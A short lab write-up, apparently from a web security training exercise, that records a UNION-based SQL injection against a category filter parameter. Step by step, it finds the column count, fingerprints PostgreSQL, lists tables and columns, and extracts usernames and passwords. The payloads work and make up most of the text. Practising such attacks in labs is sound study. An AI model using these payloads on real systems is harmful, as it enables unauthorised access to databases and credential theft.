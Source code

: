 # lab-listing-database-contents-non-oracle

`/filter?category=Gifts'+UNION+SELECT+NULL--`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL--`: Ok (2 columns)

`/filter?category=Gifts'+UNION+SELECT+@@version,+NULL--`: Internal Server Error (not MySQL or MSSQL)

`/filter?category=Gifts'+UNION+SELECT+v$version,+NULL--`: Internal Server Error (not Oracle)

`/filter?category=Gifts'+UNION+SELECT+version(),+NULL--`: Ok (PostgreSQL)
![Querying version](sqli-05-01.png)

Get tables list:

`/filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Users table name is `users_zkpcnl` (suffix is random).

Get users table columns list:

`/filter?category=Gifts'+UNION+SELECT+column_name,+data_type+FROM+information_schema.columns+WHERE+table_name='users_zkpcnl'--`

Users table has two columns: `username_zoeoqs` and `password_etchpd` (suffix is random).

Get users with passwords:

`/filter?category=Gifts'+UNION+SELECT+username_zoeoqs,+password_etchpd+FROM+users_zkpcnl--`
![Querying version](sqli-05-02.png)

Solved.
